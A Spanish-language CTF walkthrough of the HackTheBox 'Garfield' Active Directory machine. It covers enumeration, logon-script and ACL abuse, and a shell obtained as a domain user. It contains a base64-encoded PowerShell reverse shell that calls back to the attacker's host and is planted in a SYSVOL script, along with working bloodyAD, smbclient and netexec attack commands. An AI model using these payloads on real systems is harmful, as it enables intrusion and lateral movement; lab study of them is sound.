





{: .align-center}

**Habilidades:** Domain Enumeration - `BloodHound`, SMB Enumeration, Abusing Logon Scripts, Abusing AD ACL - `ForceChangePassword` Rights, Abusing AD ACL - `WriteAccountRestrictions` Rights to Resource-Based Constrained Delegation (RBCD) Abuse, Tunneling with Ligolo-ng, Abusing AD ACL  - `AddSelf` Rights, RODC Golden Ticket + Kerberos Key List, PassTheHash
{: .notice--primary}

# Introducción

Garfield es una máquina Windows de dificultad `Hard` en HackTheBox, la cual debemos comprometer a través del abuso de ciertas características y configuraciones inseguras en un entorno de Active Directory. Comenzaremos abusando de escritura de Logon Scripts, el abuso de ciertos derechos ACL sobre algunas cuentas de equipo facilitará un movimiento lateral y acceso inicial.

En cuanto a escalada de privilegios, abusaremos de derechos sobre un Controlador de Dominio de solo lectura (`RODC` o `Read-Only Domain Controller`) para conseguir acceso privilegiado sobre el Controlador de Dominio principal.

El creador de la máquina nos brinda el siguiente mensaje en la descripción:

> As is common in real life pentests, you will start the Garfield box with credentials for the following account `j.arbuckle` / `Th1sD4mnC4t!@1978`
{: .notice--info}
<br>
# Reconocimiento
---
Enviaremos una traza ICMP para comprobar que la máquina víctima se encuentre activa

``` bash
export TARGET_IP=10.129.16.209
ping -c1 $TARGET_IP
```


## Port Scanning 

Una vez verificamos conectividad, procederemos escaneando puertos abiertos en la máquina víctima.

El propósito de este escaneo es identificar servicios expuestos para posteriormente llevar a cabo una enumeración de estos en búsqueda de más información, identificando a estos servicios, su versión, etc.

``` bash
rustscan -a $TARGET_IP --ulimit 5000 -- -sC -sV -Pn -n -oN services

Host is up, received user-set (0.17s latency).
Scanned at 2026-04-06 15:48:24 -04 for 78s

PORT     STATE SERVICE       REASON         VERSION
53/tcp   open  domain        syn-ack ttl 63 Simple DNS Plus
88/tcp   open  kerberos-sec  syn-ack ttl 63 Microsoft Windows Kerberos (server time: 2026-04-07 03:48:35Z)
135/tcp  open  msrpc         syn-ack ttl 63 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 63 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 63 Microsoft Windows Active Directory LDAP (Domain: garfield.htb0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 63
464/tcp  open  kpasswd5?     syn-ack ttl 63
593/tcp  open  ncacn_http    syn-ack ttl 63 Microsoft Windows RPC over HTTP 1.0
2179/tcp open  vmrdp?        syn-ack ttl 63
3268/tcp open  ldap          syn-ack ttl 63 Microsoft Windows Active Directory LDAP (Domain: garfield.htb0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 63
3389/tcp open  ms-wbt-server syn-ack ttl 63 Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: GARFIELD
|   NetBIOS_Domain_Name: GARFIELD
|   NetBIOS_Computer_Name: DC01
|   DNS_Domain_Name: garfield.htb
|   DNS_Computer_Name: DC01.garfield.htb
|   DNS_Tree_Name: garfield.htb
|   Product_Version: 10.0.17763
|_  System_Time: 2026-04-07T03:49:02+00:00
|_ssl-date: 2026-04-07T03:49:41+00:00; +8h00m02s from scanner time.
| ssl-cert: Subject: commonName=DC01.garfield.htb
| Issuer: commonName=DC01.garfield.htb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2026-02-13T01:10:36
| Not valid after:  2026-08-15T01:10:36
| MD5:   1d54628dc6bd0ef098e86fe7ed233178
| SHA-1: 6a3b9a1dcd3f00067f71f340cefb59b8b2e95041
| -----BEGIN CERTIFICATE-----
| MIIC5jCCAc6gAwIBAgIQRWjBnxmhFpRL9DZFFlNNGzANBgkqhkiG9w0BAQsFADAc
| MRowGAYDVQQDExFEQzAxLmdhcmZpZWxkLmh0YjAeFw0yNjAyMTMwMTEwMzZaFw0y
| NjA4MTUwMTEwMzZaMBwxGjAYBgNVBAMTEURDMDEuZ2FyZmllbGQuaHRiMIIBIjAN
| BgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEAudwNMshQBO3zq1/pE8+nBxwGxJ1l
| SyyT5cTIhNDVGOj1kvnrvbksT07EV+vqMFnCrp1d4CAwvOqCGFuPPoVw2X6oEM3C
| Hk3WdpoAGDuSUSNSvfketGhPiPjD0mbRUl0/TLqDu0shOL1D7q1IXHh4H/S7Rqgd
| GXUs7jQ19RryyVJ6fbH1aoZrg2JATrlpzAh9u77upPVhK2omeTyEz9PNxeElbb8j
| 22YgC9WjR+YSwQcq9xjMNS+8Bf2MwF9ltPYp3M8PKMO6Ib93EvWfbkQ75gxB1CJ+
| UJo85i8/N1L5ZvfkDP5UkBkGKiaWDfIqx+RlpUuOt5Y98N/szT08l+YQBQIDAQAB
| oyQwIjATBgNVHSUEDDAKBggrBgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcN
| AQELBQADggEBACOttD+PBn41TyIk0Fr5ISoHzalcZLFhWwVpmJKvGPwEEj+2o3JI
| yZgV0kVinOLCkEY2O+N95iWNcbc0jTkmkhHmfTyNZ2mA4P0Dxd+TVnBzUleL8Tjm
| Rm8s53SBxncdtykSulWbszQLLgRy09EBapw2JHNpWG9p0ymPqW3uBGcJXfsZ3hif
| +xIeWo+aXoJfSG4F+ptBxRMJ7OGr+q4jQh84VUi5tLUXtHvxJMuM/LPgNVkEsYFU
| yNeT8ukEDEdMTVAYWeftXPMfAbdDX1Ptr0JCeLW5VFWrql9EszHXs4nCvoBg9iSj
| 7ipPJi99f+g9vL4srEEeQxsVGlv/RZ85Bj4=
|_-----END CERTIFICATE-----
5985/tcp open  http          syn-ack ttl 63 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        syn-ack ttl 63 .NET Message Framing
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   311: 
|_    Message signing enabled and required
|_clock-skew: mean: 8h00m01s, deviation: 0s, median: 8h00m01s
| smb2-time: 
|   date: 2026-04-07T03:49:05
|_  start_date: N/A
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 61484/tcp): CLEAN (Timeout)
|   Check 2 (port 40457/tcp): CLEAN (Timeout)
|   Check 3 (port 53172/udp): CLEAN (Timeout)
|   Check 4 (port 42481/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 15:49
Completed NSE at 15:49, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 79.11 seconds
           Raw packets sent: 14 (616B) | Rcvd: 17 (760B)
```

> Considera usar este tipo de escaneos con `rustscan` exclusivamente en entornos de CTFs, para otros entornos revisa la siguiente advertencia publicada en [`Github`](https://github.com/bee-san/RustScan/wiki/Usage#%EF%B8%8F-warning).
{: .notice--warning}

- `--ulimit 5000`: Acelera el escaneo incrementando el descriptor de archivo.
- `-sC`: Lanzar scripts de reconocimiento más comunes.
- `-sV`: Intentar identificar la versión del servicio que ejecuta el puerto.
- `-Pn`: Omitir descubrimiento de host (`ARP Scan`).
- `-n`: Omitir la resolución `DNS`.
- `-oN`: Exportar en formato normal, tal como se ve por consola.

La captura de `nmap` muestra gran cantidad de servicios que fundamentalmente operan en un entorno de `Active Directory` (como `DNS`, `LDAP`/`LDAPS`), por lo que podemos intuir que estamos frente a un Controlador de Dominio.

En ciertos servicios como `SMB` o `LDAP`, veremos tanto el nombre del dominio como del host, añadiremos esta información a nuestro archivo `/etc/hosts` con el fin de aplicar correctamente resolución `DNS`

``` bash
echo "$TARGET_IP garfield.htb DC01.garfield.htb DC01" | sudo tee -a /etc/hosts

10.129.17.103 garfield.htb DC01.garfield.htb DC01
```


## Domain Enumeration

Como nos enfrentamos a un dominio de Active Directory, debemos adoptar un enfoque metodológico y comenzar enumerando cada aspecto del dominio, como usuarios/grupos, permisos, recursos compartidos, etc.

### BloodHound

Como tenemos credenciales de una cuenta de usuario del dominio, podemos lanzar herramientas como `bloodhound-python`, `bloodhound-ce` o `rusthound` para recolectar información remotamente, para posteriormente analizarla con `BloodHound`

``` bash
bloodhound-ce --zip -c All -d garfield.htb -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' -dc DC01.garfield.htb

# Rust Alternative
rusthound -d garfield.htb -u j.arbuckle@garfield.htb -p 'Th1sD4mnC4t!@1978' --zip
```

### Users

Para agilizar un poco la enumeración, podemos recolectar información sobre las cuentas del dominio.

Podemos usar tanto `netexec`, consultar en `BloodHound` o utilizar `rpcclient` para enumerar usuarios del dominio.

> En mi caso utilicé una serie de filtros con una expresión regular para extraer de forma rápida el nombre de cada cuenta.
{: .notice--warning}

``` bash
rpcclient -U 'j.arbuckle%Th1sD4mnC4t!@1978' DC01.garfield.htb -c enumdomusers | grep -oP '\[.*?\]' | grep -v 0x | tr -d '[]' | tee users.txt

Administrator
Guest
krbtgt
krbtgt_8245
j.arbuckle
l.wilson
l.wilson_adm
```

> En este punto podemos enumerar frente al protocolo `kerberos` en búsqueda de cuentas vulnerables a `AS-REP Roasting`, `Kerberoasting`, o simplemente validarlas en el dominio.
{: .notice--danger}


## SMB Enumeration

Continuaremos nuestra metodología de enumeración, esta vez en búsqueda de recursos compartidos de red usando el protocolo `SMB`.

> Para este propósito, las herramientas por excelencia son `smbclient`, `netexec` (continuación de `crackmapexec`) y `smbmap`.
{: .notice--info}

``` bash
nxc smb DC01.garfield.htb -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' --shares           
SMB         10.129.13.177   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:garfield.htb) (signing:True) (SMBv1:False)
SMB         10.129.13.177   445    DC01             [+] garfield.htb\j.arbuckle:Th1sD4mnC4t!@1978 
SMB         10.129.13.177   445    DC01             [*] Enumerated shares
SMB         10.129.13.177   445    DC01             Share           Permissions     Remark
SMB         10.129.13.177   445    DC01             -----           -----------     ------
SMB         10.129.13.177   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.13.177   445    DC01             C$                              Default share
SMB         10.129.13.177   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.13.177   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.13.177   445    DC01             SYSVOL          READ            Logon server share
```

A priori veremos permisos de lectura, sin embargo esto no es suficiente para un análisis profundo y solamente nos sirve como enumeración trivial.

Podemos también enumerar recursos `SMB` de forma automatizada con el módulo `spider_plus` de `netexec`, el cual buscará archivos dentro de todos los recursos compartidos accesibles

``` bash
nxc smb DC01.garfield.htb -u 'j.arbuckle' -p 'Th1sD4mnC4t!@1978' -M spider_plus  
SMB         10.129.13.177   445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:garfield.htb) (signing:True) (SMBv1:False)
SMB         10.129.13.177   445    DC01             [+] garfield.htb\j.arbuckle:Th1sD4mnC4t!@1978 
SPIDER_PLUS 10.129.13.177   445    DC01             [*] Started module spidering_plus with the following options:
SPIDER_PLUS 10.129.13.177   445    DC01             [*]  DOWNLOAD_FLAG: False
SPIDER_PLUS 10.129.13.177   445    DC01             [*]     STATS_FLAG: True
SPIDER_PLUS 10.129.13.177   445    DC01             [*] EXCLUDE_FILTER: ['print$', 'ipc$']
SPIDER_PLUS 10.129.13.177   445    DC01             [*]   EXCLUDE_EXTS: ['ico', 'lnk']
SPIDER_PLUS 10.129.13.177   445    DC01             [*]  MAX_FILE_SIZE: 50 KB
SPIDER_PLUS 10.129.13.177   445    DC01             [*]  OUTPUT_FOLDER: /root/.nxc/modules/nxc_spider_plus
SMB         10.129.13.177   445    DC01             [*] Enumerated shares
SMB         10.129.13.177   445    DC01             Share           Permissions     Remark
SMB         10.129.13.177   445    DC01             -----           -----------     ------
SMB         10.129.13.177   445    DC01             ADMIN$                          Remote Admin
SMB         10.129.13.177   445    DC01             C$                              Default share
SMB         10.129.13.177   445    DC01             IPC$            READ            Remote IPC
SMB         10.129.13.177   445    DC01             NETLOGON        READ            Logon server share 
SMB         10.129.13.177   445    DC01             SYSVOL          READ            Logon server share 
SPIDER_PLUS 10.129.13.177   445    DC01             [+] Saved share-file metadata to "/root/.nxc/modules/nxc_spider_plus/10.129.13.177.json".
SPIDER_PLUS 10.129.13.177   445    DC01             [*] SMB Shares:           5 (ADMIN$, C$, IPC$, NETLOGON, SYSVOL)
SPIDER_PLUS 10.129.13.177   445    DC01             [*] SMB Readable Shares:  3 (IPC$, NETLOGON, SYSVOL)
SPIDER_PLUS 10.129.13.177   445    DC01             [*] SMB Filtered Shares:  1
SPIDER_PLUS 10.129.13.177   445    DC01             [*] Total folders found:  20
SPIDER_PLUS 10.129.13.177   445    DC01             [*] Total files found:    8
SPIDER_PLUS 10.129.13.177   445    DC01             [*] File size average:    1.08 KB
SPIDER_PLUS 10.129.13.177   445    DC01             [*] File size min:        22 B
SPIDER_PLUS 10.129.13.177   445    DC01             [*] File size max:        3.81 KB
```

En el archivo que `netexec` ha generado, podremos ver que existe un recurso inusual llamado `printerDetect.bat`

``` json
cat /root/.nxc/modules/nxc_spider_plus/10.129.13.177.json

...
<SNIP>
...
        "garfield.htb/scripts/printerDetect.bat": {
            "atime_epoch": "2025-09-12 19:20:28",
            "ctime_epoch": "2025-09-12 19:20:17",
            "mtime_epoch": "2025-09-12 19:25:38",
            "size": "217 B"
        }
    }
}
```

Podemos utilizar la herramienta `smbclient` para descargar este archivo, para ello debemos conectarnos al recurso compartido `SYSVOL`

``` bash
smbclient //DC01.garfield.htb/SYSVOL -U 'j.arbuckle%Th1sD4mnC4t!@1978'
Try "help" to get a list of possible commands.
smb: \> cd garfield.htb\scripts
smb: \garfield.htb\scripts\> get printerDetect.bat

# Oneliner
smbclient -U 'j.arbuckle%Th1sD4mnC4t!@1978' //DC01.garfield.htb/SYSVOL -c 'get garfield.htb/scripts/printerDetect.bat printerDetect.bat'
```

Si inspeccionamos su contenido, veremos que intenta descubrir impresoras instaladas usando el comando `wmic`

``` shell
@echo off
echo Detecting installed printers...
echo ==============================

wmic printer get Name,DeviceID,PortName,DriverName,Shared,Status /format:table

echo.
echo Printer detection completed.
pause
```

### ACL

Al enumerar la lista de control de acceso (ACL) sobre este archivo y/o directorio, vemos que el grupo `IT_Support` tiene capacidad de escritura

``` bash
smbcacls //DC01.garfield.htb/SYSVOL /garfield.htb/scripts/printerDetect.bat -U 'j.arbuckle%Th1sD4mnC4t!@1978'
REVISION:1
CONTROL:SR|DI|DP
OWNER:BUILTIN\Administrators
GROUP:GARFIELD\Domain Users
ACL:BUILTIN\Administrators:ALLOWED/I/FULL
tstream_smbXcli_np_destructor: cli_close failed on pipe lsarpc. Error was NT_STATUS_IO_TIMEOUT
ACL:NT AUTHORITY\Authenticated Users:ALLOWED/I/READ
ACL:S-1-5-18:ALLOWED/I/FULL
ACL:S-1-5-32-549:ALLOWED/I/READ
ACL:S-1-5-21-2502726253-3859040611-225969357-3106:ALLOWED/I/RWXD
```

- `S-1-5-21-2502726253-3859040611-225969357-3106`: Corresponde al `SID` (`Security Identifier`) de una cuenta/grupo dentro del dominio.
- `I`: Permisos heredados (`Inherited`), muy posiblemente porque este grupo/usuario tiene permisos sobre la carpeta superior (`scripts`).
- `RWXD`: Estos bits de permisos significarían `Read`, `Write`, `Execute` y `Delete` , osea, control total.

> En algunas ocasiones la herramienta resolverá el `SID` y nos mostrará el nombre del objeto en cuestión.
{: .notice--danger}

Para una traducción rápida de este `SID`, podemos buscarlo mediante herramientas como `lookupsid` de `impacket`

``` bash
lookupsid.py garfield.htb/j.arbuckle:'Th1sD4mnC4t!@1978'@DC01.garfield.htb
Impacket v0.13.0.dev0+20250717.182627.84ebce48 - Copyright Fortra, LLC and its affiliated companies 

[*] Brute forcing SIDs at DC01.garfield.htb
[*] StringBinding ncacn_np:DC01.garfield.htb[\pipe\lsarpc]
[*] Domain SID is: S-1-5-21-2502726253-3859040611-225969357
498: GARFIELD\Enterprise Read-only Domain Controllers (SidTypeGroup)
500: GARFIELD\Administrator (SidTypeUser)
501: GARFIELD\Guest (SidTypeUser)
502: GARFIELD\krbtgt (SidTypeUser)
512: GARFIELD\Domain Admins (SidTypeGroup)
513: GARFIELD\Domain Users (SidTypeGroup)
514: GARFIELD\Domain Guests (SidTypeGroup)
515: GARFIELD\Domain Computers (SidTypeGroup)
516: GARFIELD\Domain Controllers (SidTypeGroup)
517: GARFIELD\Cert Publishers (SidTypeAlias)
518: GARFIELD\Schema Admins (SidTypeGroup)
519: GARFIELD\Enterprise Admins (SidTypeGroup)
520: GARFIELD\Group Policy Creator Owners (SidTypeGroup)
521: GARFIELD\Read-only Domain Controllers (SidTypeGroup)
522: GARFIELD\Cloneable Domain Controllers (SidTypeGroup)
525: GARFIELD\Protected Users (SidTypeGroup)
526: GARFIELD\Key Admins (SidTypeGroup)
527: GARFIELD\Enterprise Key Admins (SidTypeGroup)
553: GARFIELD\RAS and IAS Servers (SidTypeAlias)
571: GARFIELD\Allowed RODC Password Replication Group (SidTypeAlias)
572: GARFIELD\Denied RODC Password Replication Group (SidTypeAlias)
1000: GARFIELD\DC01$ (SidTypeUser)
1101: GARFIELD\DnsAdmins (SidTypeAlias)
1102: GARFIELD\DnsUpdateProxy (SidTypeGroup)
1602: GARFIELD\RODC01$ (SidTypeUser)
1603: GARFIELD\krbtgt_8245 (SidTypeUser)
2101: GARFIELD\RODC Administrators (SidTypeGroup)
3101: GARFIELD\j.arbuckle (SidTypeUser)
3105: GARFIELD\l.wilson (SidTypeUser)
3106: GARFIELD\IT Support (SidTypeGroup)
3107: GARFIELD\l.wilson_adm (SidTypeUser)
3108: GARFIELD\Tier 1 (SidTypeGroup)
```

Entonces, el `RID` `3106` correspondería al grupo `IT_Support`. Si comprobamos rápidamente desde `Bloodhound`, notaremos que el usuario `j.arbuckle` es miembro de este grupo. 

Esto significa que tiene la capacidad de subir archivos a este directorio dentro de `SYSVOL`


{: .align-center}
<br>


# Intrusión / Explotación
---
## Abusing Logon Script

Sabiendo que tenemos control sobre la carpeta `scripts`, podemos abusar de esto subiendo un script y luego esperar o de alguna forma iniciar su ejecución.

> En este caso intenté enviar una reverse shell hacia mi equipo por un puerto usando un payload de [`revshells.com`](https://www.revshells.com/) (`Powershell#3 Base64`).
{: .notice--warning}

``` powershell
@echo off

powershell -e JABjAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAAuAFMAbwBjAGsAZQB0AHMALgBUAEMAUABDAGwAaQBlAG4AdAAoACIAMQAwAC4AMQAwAC4AMQA3AC4AMgAxACIALAA0ADQAMwApADsAJABzAHQAcgBlAGEAbQAgAD0AIAAkAGMAbABpAGUAbgB0AC4ARwBlAHQAUwB0AHIAZQBhAG0AKAApADsAWwBiAHkAdABlAFsAXQBdACQAYgB5AHQAZQBzACAAPQAgADAALgAuADYANQA1ADMANQB8ACUAewAwAH0AOwB3AGgAaQBsAGUAKAAoACQAaQAgAD0AIAAkAHMAdAByAGUAYQBtAC4AUgBlAGEAZAAoACQAYgB5AHQAZQBzACwAIAAwACwAIAAkAGIAeQB0AGUAcwAuAEwAZQBuAGcAdABoACkAKQAgAC0AbgBlACAAMAApAHsAOwAkAGQAYQB0AGEAIAA9ACAAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAALQBUAHkAcABlAE4AYQBtAGUAIABTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBBAFMAQwBJAEkARQBuAGMAbwBkAGkAbgBnACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAYgB5AHQAZQBzACwAMAAsACAAJABpACkAOwAkAHMAZQBuAGQAYgBhAGMAawAgAD0AIAAoAGkAZQB4ACAAJABkAGEAdABhACAAMgA+ACYAMQAgAHwAIABPAHUAdAAtAFMAdAByAGkAbgBnACAAKQA7ACQAcwBlAG4AZABiAGEAYwBrADIAIAA9ACAAJABzAGUAbgBkAGIAYQBjAGsAIAArACAAIgBQAFMAIAAiACAAKwAgACgAcAB3AGQAKQAuAFAAYQB0AGgAIAArACAAIgA+ACAAIgA7ACQAcwBlAG4AZABiAHkAdABlACAAPQAgACgAWwB0AGUAeAB0AC4AZQBuAGMAbwBkAGkAbgBnAF0AOgA6AEEAUwBDAEkASQApAC4ARwBlAHQAQgB5AHQAZQBzACgAJABzAGUAbgBkAGIAYQBjAGsAMgApADsAJABzAHQAcgBlAGEAbQAuAFcAcgBpAHQAZQAoACQAcwBlAG4AZABiAHkAdABlACwAMAAsACQAcwBlAG4AZABiAHkAdABlAC4ATABlAG4AZwB0AGgAKQA7ACQAcwB0AHIAZQBhAG0ALgBGAGwAdQBzAGgAKAApAH0AOwAkAGMAbABpAGUAbgB0AC4AQwBsAG8AcwBlACgAKQA=

pause
```

### Put File

Una vez modificado, subiremos el script a la misma ruta desde la que lo descargamos (en el recurso compartido `SYSVOL`)

``` bash
smbclient //DC01.garfield.htb/SYSVOL -U 'j.arbuckle%Th1sD4mnC4t!@1978'
Try "help" to get a list of possible commands.
smb: \> cd garfield.htb\scripts
smb: \garfield.htb\scripts\> put printerDetect.bat
putting file printerDetect.bat as \garfield.htb\scripts\printerDetect.bat (2.1 kb/s) (average 2.1 kb/s)

# Oneliner alternative
smbclient -U 'j.arbuckle%Th1sD4mnC4t!@1978' //DC01.garfield.htb/SYSVOL -c 'put evil.bat garfield.htb/scripts/evil.bat'
```

### Script Path

Por sí solo el script no se ejecutará, entonces debemos pensar en alguna forma de hacerlo.

De acuerdo con la siguiente publicación en [`thehackerrecipes`](https://www.thehacker.recipes/ad/movement/dacl/logon-script), podemos considerar escribir sobre el atributo `scriptPath` de algún usuario y esperar a que se ejecute cuando éste inicie sesión.

> El `scriptPath` en `Windows` es un atributo, principalmente en `Active Directory`, que define la ruta de acceso al script de inicio de sesión (`logon script`) de un usuario.
> 
> Indica dónde está almacenado un archivo de script (`.bat`, `.cmd`, `.vbs`) que Windows ejecuta automáticamente al iniciar sesión, permitiendo automatizar tareas como mapear unidades de red o impresoras (como se intenta emular con el script `printerDetect.bat`).
{: .notice--info}

Para verificar si podemos modificar el atributo `scriptPath` de alguna cuenta dentro del dominio, podemos hacerlo enumerando ACLs

> En este caso estoy filtrando por el grupo `IT Support` para no ver información que nos nos interesa.
{: .notice--warning}

``` bash
powerview garfield.htb/j.arbuckle:'Th1sD4mnC4t!@1978'@DC01.garfield.htb -q 'Get-DomainObjectAcl -Identity "l.wilson" -ResolveGUIDs' | grep -C 5 "WriteProperty\|GenericWrite\|GenericAll" | grep -B 8 "IT Support"
ObjectDN                    : CN=Liz Wilson,CN=Users,DC=garfield,DC=htb
ObjectSID                   : S-1-5-21-2502726253-3859040611-225969357-3105
ACEType                     : ACCESS_ALLOWED_OBJECT_ACE
ACEFlags                    : CONTAINER_INHERIT_ACE, INHERITED_ACE
AccessMask                  : ReadProperty, WriteProperty
ObjectAceFlags              : ACE_OBJECT_TYPE_PRESENT, ACE_INHERITED_OBJECT_TYPE_PRESENT
ObjectAceType               : Script-Path
InheritanceType             : User
SecurityIdentifier          : GARFIELD\IT Support

# Alternativa con bloodyAD
bloodyAD -d garfield.htb -u j.arbuckle -p 'Th1sD4mnC4t!@1978' --host DC01.garfield.htb get object 'l.wilson' --resolve-sd | grep 'IT Support' -A 3
nTSecurityDescriptor.ACL.11.Trustee: IT Support
nTSecurityDescriptor.ACL.11.Right: WRITE_PROP|READ_PROP
nTSecurityDescriptor.ACL.11.ObjectType: Script-Path
nTSecurityDescriptor.ACL.11.InheritedObjectType: User
```

Para que el script pueda ser ejecutado, necesitamos que algún usuario víctima tenga asignado el recursos malicioso dentro de su ruta de inicio de sesión.

> Antes de desplegar el ataque, iniciaremos un listener ya sea con `netcat`, `penelope`, etc.
> 
> Por ejemplo: `rlwrap -cAr nc -lvnp <port>`
{: .notice--danger}

``` bash
bloodyAD -d garfield.htb -u j.arbuckle -p 'Th1sD4mnC4t!@1978' --host DC01.garfield.htb set object l.wilson scriptPath -v 'evil.bat'         
[+] l.wilson's scriptPath has been updated
```


## Shell as `l.wilson`

Luego de un breve período de tiempo, en nuestro listener recibiremos una consola de `powershell` como el usuario `l.wilson`

``` bash
Connection from 10.129.13.177:53864

PS C:\Windows\system32> whoami
garfield\l.wilson 
```


## Abusing AD ACL - `ForceChangePassword` Rights

La cuenta `l.wilson` posee derechos `ForceChangePassword` sobre la cuenta `l.wilson_adm`, esto le permite forzar un cambio de contraseña sobre ella


{: .align-center}

